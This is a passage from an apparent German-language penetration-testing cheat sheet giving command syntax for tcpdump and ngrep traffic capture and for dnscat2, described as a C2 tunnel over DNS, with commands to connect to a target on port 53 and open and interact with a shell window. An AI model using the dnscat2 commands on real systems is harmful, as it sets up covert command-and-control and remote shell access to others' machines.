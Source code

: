 - Gewisses Netz abhören:
```
tcpdump net [Network]
```

- Gewissen Source Port abhören:
```
tcpdump src port [PORT]
```

- Gewisses Protokoll abhören
```
tcpump [Protocolname]
```

## [ngrep](https://linuxhint.com/how-to-use-ngrep/)
- Alternatives Netzwerkanalyse Tool zu WireShark und tcpdum

### Syntax
- Filter Traffic nach Schlagwort / Dienst / Seite
```
ngrep -q -i 'Filter'
```

- Aufgenommenen Traffic in pcap-File schreiben
```
ngrep -O pcap.pcap
```

- Gewissen Port abhören
```
ngrep port [Port]
```

## [dnscat2](https://www.hackingarticles.in/dnscat2-application-layer-cc/)
- C2 Tunnel über DNS
- Installation
```
sudo apt install dnscat2
```

### Syntax
- Verbindung herstellen
```
dnscat --dns=server=[Target-IP],port=53
```

### Shell erstellen
- Fenster anzeigen lassen
```
windows
```

- Mit Fenster 1 interagieren
```
window -i 1
```
